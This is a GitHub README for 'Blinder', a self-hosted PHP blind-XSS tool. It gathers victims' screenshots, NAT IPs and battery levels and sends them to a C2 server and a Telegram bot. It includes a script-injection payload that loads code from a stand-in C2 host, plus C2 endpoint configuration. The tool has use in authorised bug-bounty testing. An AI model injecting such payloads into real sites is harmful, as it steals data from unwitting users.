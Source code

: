 # Blinder

[![PHP Version](https://img.shields.io/badge/php-%3E%3D7.4-blue)](#) [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](#)

**Blinder** is a self-hosted PHP-based Blind XSS detection and management tool designed to streamline vulnerability discovery, automate payload collection, and deliver real-time notifications via Telegram. The screenshot from the victim is also fetched.

---

## ✨ Key Features

* **Blind XSS Detection**: Capture out-of-band XSS payloads.
* **Real-Time Telegram Alerts**: Get notified instantly on payload triggers.
* **Web Interface**: Centralized panel to monitor and manage data.
* **Flexible Payloads**: Works with customized payloads. To make changes, alter index.php (script portion).
* **Self-Hosted Support**: Integrate with your own C2 server.
* **Intrusive data**: Local NAT IP and system battery percentage is fetched.

---

## 📦 Installation

1. **Clone the repo**:

   ```bash
   git clone https://github.com/AamerShah/blinder.git
   cd blinder
   ```
2. **Install PHP dependencies**: Not necessary

   ```bash
   composer install
   ```
3. **Configure server**:

   * Set your document root to `public/`
   * Ensure PHP 7.4+ is installed with `curl` and `mbstring` extensions enabled

---

## ⚙️ Configuration

### 1. Telegram Bot Setup

* Edit `collect.php`:

  * Line 11: Set Telegram bot token:

    ```php
    $telegram_token = 'YOUR_TELEGRAM_BOT_TOKEN';
    ```
  * Line 12: Set chat/group ID:

    ```php
    $chat_id = 'YOUR_TELEGRAM_CHAT_ID';
    ```

  * Line 55 in `collect.php`:

    ```php
    $msg .= "<a href=\"https://c2.com/admin.php\">View full log</a>";
    ```

### 2. Host URL

* Line 6 in `index.php`:

  ```php
  const endpoint = 'https://c2.com/collect.php';
  ```

### 3. Set admin password

* Line 3 in `admin.php`:

  ```php
  $hardcoded_password = "Sup3r_S3cr3t";
  ```

---

## 💡 Usage Steps

1. **Host** the project on your server
2. **Generate XSS payload** from UI/CLI
3. **Inject** the payload into the target
4. **Wait** for alert in your Telegram
5. **Analyze** data via the dashboard
6. ***<script/src=//c2.com></script>***

---

## 🛡️ Security Best Practices

* Isolate the server from production assets
* Use HTTPS for all traffic
* Add access control via `.htpasswd` or firewall rules

---

## 📝 Contributions

Feel free to fork and submit PRs. Open issues for feature requests or bugs.

---

## 📄 License

Licensed under MIT. See [LICENSE](LICENSE) file.

---

**Developer:** [Aamer Shah](mailto:aamer@pm.me)
